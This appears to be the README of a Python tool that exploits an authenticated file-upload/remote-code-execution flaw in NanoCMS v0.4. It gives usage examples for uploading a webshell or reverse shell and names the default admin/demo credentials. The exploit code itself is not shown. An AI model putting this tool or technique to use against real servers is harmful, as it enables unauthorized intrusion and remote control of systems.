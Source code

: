 # nanocmshell ⭐
a simple script that exploits an authenticated file upload/remote code execution vulnerability in NanoCMS v0.4.  

## the exploit ❗
https://github.com/kalyan02/NanoCMS has not been maintained in a long time and suffers from a a number of vulnerabilities including authenticated file upload/remote code execution which this script exploits.  
More information here: https://github.com/ishell/Exploits-Archives/blob/master/2009-exploits/0904-exploits/nanocms-multi.txt  
NanoCMS saves pages both new and edited, as .php files by default, allowing an authenticated attacker to upload executable code.  
this script uploads a webshell.

## prerequisites ✔
* python3
* python3 requests module
* python3 beautifulsoup4 module
```
sudo apt install python3
sudo apt install python3-pip
pip3 install beautifulsoup4
pip3 install requests
```

## usage ℹ
use `./nanocmshell` or `python3 nanocmshell` with `-h` or `--help` for help menu:
```
usage: nanocmshell [-h] [-u USER] [-p PASSWD] [-e] [-a] [-n] address file

../nanocmshellv2.py exploits authenticated file upload
and remote code execution in NanoCMS.

positional arguments:
  address               schema/ip/hostname, port, sub-directories to the vulnerable NanoCMS
                        server
  file                  php file to upload

options:
  -h, --help            show this help message and exit
  -u USER, --user USER  username
  -p PASSWD, --passwd PASSWD
                        password
  -e, --execute         attempts to make a request to the uploadedfile (more useful if
                        uploading a reverse shell)
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

examples:
        python3 nanocmshellv2.py http://10.10.10.10/ rev.php
        python3 nanocmshellv2.py http://hostname:8080 rev-shell.php -a
        ./nanocmshellv2.py https://10.10.10.10 rev-shell -n -e -u 'user'
```
note: admin/demo are default credentials used but new ones can be supplied with `-u` and `-p` flags.

## notes 📝
the script was mainly an exercise in creating a short, comprehensive, self-contained program for a single exploit with both readability and accessibility in mind.  
aims to handle a number of potential errors to help troubleshooting easier.

## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.
